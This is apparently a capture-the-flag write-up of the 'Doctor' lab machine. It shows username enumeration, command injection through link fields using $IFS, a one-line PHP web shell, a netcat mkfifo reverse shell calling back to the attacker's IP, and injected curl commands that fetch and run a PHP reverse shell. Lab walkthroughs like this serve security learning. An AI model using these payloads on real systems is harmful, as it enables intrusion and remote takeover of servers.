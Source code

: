# 10 - HTTP


# Virtual Host 
![](vx_images/3649090796613.png)

Aside from the virtual host reveal, there is not much going on here. The pages are static.


# doctors.htb
![](vx_images/2098308239090.png)

Options are:

* Log In
* Sign Up Now
* Forgot Password?

Default credentials like admin:admin are worth a try in this type of situations.

# Username reveal
![](vx_images/623307585705.png)


The login page hardened enough to not reveal anything. On the other hand, register page is being verbose. It warns us if a username is picked already. Username enumeration with wfuzz might come in handy later on.


# Logged in
![](vx_images/778840911456.png)

New message sounds interesting. There may be some interaction going on with the other users.

# New message

![](vx_images/2356484869860.png)


Just checking if the users follow links. If that does not work, we will try XSS next

# User Agent: curl
![](vx_images/4731613556502.png)


User Agent turns out to be curl, that means probably a shell command is being run every time  we create a note with links. With this in mind, we can try to inject commands .

# Command injection
![](vx_images/4652344002981.png)


$IFS variable is a space character. IFS is necessary for our purposes otherwise the server complains.

# Exploit.php
```bash
┌─[user@parrot]─[10.10.14.14]─[~/htb/doctor/www]
└──╼ $ cat exploit.php 
<?php system($_REQUEST['cmd']);?>
```


# Remote Code Execution
```
┌─[user@parrot]─[10.10.14.14]─[~/htb/doctor/www]
└──╼ $ curl http://10.10.10.209/exp.php?cmd=whoami
www-data

```

Notice we are running as www-data, this will matter in a moment.


# Reverse Shell
```bash
POST /exp.php HTTP/1.1
Host: 10.10.10.209
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 82

cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.14 4444 >/tmp/f
```

Notice the host header is "`Host: 10.10.10.209`". Not doctors.htb

# www-data
![](vx_images/16896817325.png)

With this user you can't see something you are supposed to.



# doctors.htb is executing under `web` while 10.10.10.209 is executing under `www-data`
![](vx_images/4778862651969.png)

This is the shell you get  if you upload `anywhere` and execute on doctors.htb. What we did instead is we uploaded a file as web(doctors.htb) and executed it as www-data(10.10.10.209). The difference is that the user `web` is a member of adm group. adm members can access certain types of logs.


# Upload php-reverse-shell
```
http://10.10.14.14/$(curl$IFS'10.10.14.14/php-reverse-shell.php'$IFS-o$IFS'/var/www/html/exp.php')

##curl 10.10.14.14/php-reverse-shell.php -o /var/www/html/exp.php
```



# Execute
```
http://10.10.14.14/$(php$IFS'/var/www/html/exp.php')

##php /var/www/html/exp.php
```